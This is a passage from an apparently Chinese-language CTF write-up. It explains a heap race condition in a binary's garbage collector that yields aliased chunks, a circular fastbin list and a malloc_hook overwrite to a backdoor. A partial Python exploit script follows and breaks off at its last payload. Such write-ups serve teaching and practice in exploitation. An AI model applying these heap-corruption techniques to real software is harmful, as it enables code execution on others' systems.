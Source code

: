 ![image-20250523102739500](https://oss.nova.gal/img/image-20250523102739500.png)

观察 refcnt 增加的条件。int 类型的只要是数字相同即可，比较符合我们的需求，但是注意的是它是 `key = value` 的形式，`key` 本身会调用 strdup 拿一个 chunk，因此，为了 chunk 好看一些，我们最好都用相同的 key，这样只会创建一个 chunk 用于存储 key，一个 obj 用于存储 string object，其他的都可以拿来作 int object。

理想情况是这样的：我们首先分配 1+80 个 chunk，在第一次 gc 的时候，它即将释放掉所有 obj，并且将指针清空。我们在它释放第 40 个 chunk 时进行第二次输入，分配 1 + 10 个 chunk。它们会拿到 0-10 号 chunk（对应 0-9 obj），并且分配在 idx 80-89 上。

紧接着，gc 继续进行，free 完剩下的 obj，并且指针置空。此时由于 0-9 obj refcnt = 1，因此不会被置空。此次 gc 结束后，我们拥有了 0-9 obj 和 80-89 obj，它们指向相同的内存。

随后，第二次 gc 进行，它会最终形成一个形如 fastbin->9->8->7->...->1->0->9->8->... 的循环链表。此时，我们拿取前 10 个，将其 fd 修改为 malloc_hook，再拿取后 10 个，将其改为后门，即可完成 race condition 的利用。

例如，在这种情况下，我们就找到了一组对应。

![image-20250523124018264](https://oss.nova.gal/img/image-20250523124018264.png)

非常巧合的，我们这个 loop 相隔非常近，因此我们能直接当 double free 来做。

![image-20250523124452589](https://oss.nova.gal/img/image-20250523124452589.png)

随便调调就出来了。

![image-20250523132631458](https://oss.nova.gal/img/image-20250523132631458.png)

不过这个 exp 没法正常打，我不在这个地方加 dbg() 这个 gc 时机就不对（笑），而且这里如果是 sleep 5 的话第一次 gc 早就过了，我测试在大概 4.5s 左右。

```python
from pwno import *

context.terminal = ["tmux", "splitw", "-h"]
gdb.binary = lambda: "/usr/bin/gdb-gef"

sh = gen_sh()

libc.address = int(recvl()[:-1], 16) - libc.sym["alarm"]

payload = b"#START\n"

for i in range(80):
    payload += b"A" * 0x20 + b" = "  # different size, easier to exploit
    payload += str(i).encode()
    payload += b"\n"
payload += b"#END\n"

sa(b"===\n", payload)

# make sure obj0 and str chunk will not be freed.
payload = b"#START\n"
payload += b"A" * 0x20 + b" = "
payload += str(114514).encode()
payload += b"\n"
sa(b"===\n", payload)
recv()
sleep(5 + 0.005 * 50)

payload = b""
for i in range(10):
    payload += b"A" * 0x20 + b" = "
    payload += str(1919810 + i).encode()
    payload += b"\n"
send(payload)
dbg("b *0x401055\np/x (void*[100])objects\nc", s=-1)

payload = b"#END\n"
```